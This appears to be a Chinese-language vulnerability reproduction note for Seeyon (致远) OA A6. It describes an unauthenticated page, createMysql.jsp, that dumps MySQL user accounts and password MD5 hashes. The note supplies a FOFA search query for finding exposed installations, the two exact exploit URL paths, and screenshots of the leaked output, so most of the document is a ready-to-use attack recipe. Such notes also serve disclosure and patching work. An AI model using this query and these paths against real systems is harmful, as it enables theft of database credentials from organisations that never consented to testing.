 # 致远OA A6 createMysql.jsp 数据库敏感信息泄露

## 漏洞描述

致远OA A6 存在数据库敏感信息泄露，攻击者可以通过访问特定的URL获取数据库账户以及密码 MD5

## 漏洞影响

```
致远OA A6
```

## FOFA

```
title="致远A8+协同管理软件.A6"
```

## 漏洞复现

当访问如下URL时执行了SQL语句 `select *from mysql.user;` 进行查询并返回到页面中

```
/yyoa/createMysql.jsp
/yyoa/ext/createMysql.jsp
```

![image-20220520152725777](https://typora-notes-1308934770.cos.ap-beijing.myqcloud.com/202205201527828.png)

![image-20220520152737237](https://typora-notes-1308934770.cos.ap-beijing.myqcloud.com/202205201527304.png)